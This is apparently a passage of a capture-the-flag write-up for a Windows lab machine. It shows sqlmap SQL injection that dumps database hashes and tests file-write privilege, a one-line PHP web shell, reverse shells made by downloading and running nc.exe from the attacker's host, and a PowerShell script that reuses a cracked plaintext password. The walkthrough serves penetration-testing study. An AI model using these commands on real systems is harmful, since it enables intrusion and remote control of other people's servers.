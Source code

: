 
Add the hashes inside a file and then crack them `hashcat -m 300 crackme.txt rockyou.txt`

```
root: 0A4A5CAD344718DC418035A1F4D292BA603134D8 
manager: CFE3EEE434B38CBF709AD67A4DCDEA476CBA7FDA * l3tm3!n
hector : 0E178792E8FC304A2E3133D535D38CAF1DA3CD9D l33th4x0rhector
```
* The manager hash was cracked with sqlmap `sqlmap -r sqlinjection.req -D mysql -T user --dump --batch`

Let's see again if we can upload a shell to the webserver and then access the server. 
To do this first I check which users is managing the mysql database. `sqlmap -r sqlinjection.req --current-user --batch`

`current user: 'manager@localhost'`

And then check the privileges of that user. `sqlmap -r sqlinjection.req --privileges --batch`
```
[*] 'manager'@'localhost' [1]:
    privilege: FILE     
```
which means we can indeed upload a file into the webserver.
I create a file and add a simple php command to execute everything I give into the `fuxsocy parameter`.
```
<?php echo system($_GET['fuxsocy']); ?>
```
To upload a file I use `sqlmap -r sqlinjection.req --file-write=q.php --file-dest=/inetpub/wwwroot/q.php --batch`

I had to guess for the destination by trying possible directories found [here](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Directory%20Traversal#interesting-windows-files)

Then I visit the webpage and download nc.exe from my box and execute it to get a reverse shell.
```
10.10.10.167/q.php?fuxsocy=curl 10.10.X.X/nc.exe > C:\Windows\Temp\nc.exe (add a webserver first with python3 -m http.server 80)
10.10.10.167/q.php?fuxsocy=C:\Windows\Temp\nc.exe 10.10.X.X 9999 -e powershell.exe 
```

```
kali@kali:~$ rlwrap nc -nvlp 9999
listening on [any] 9999 ...
connect to [10.10.14.52] from (UNKNOWN) [10.10.10.167] 50431
Windows PowerShell 
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\inetpub\wwwroot> whoami
whoami
nt authority\iusr
PS C:\inetpub\wwwroot>
```
Because I have the password for user `hector` I created a script to impersonate that user and then download the nc.exe and after get a shell back as that user.
```
$pass = ConvertTo-SecureString "l33th4x0rhector" -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential("Fidelity\\hector", $pass)
Invoke-Command -ComputerName Fidelity -Credential $cred -ScriptBlock {curl http://10.10.X.X/nc.exe -O C:\Users\hector\Desktop\nc.exe}
Invoke-Command -ComputerName Fidelity -Credential $cred -ScriptBlock {C:\Users\hector\Desktop\nc.exe 10.10.X.X 8888 -e powershell}
```
![hektor_user](https://user-images.githubusercontent.com/16364370/79082147-93fcc400-7cf1-11ea-9272-cbabcfcc98ac.png)
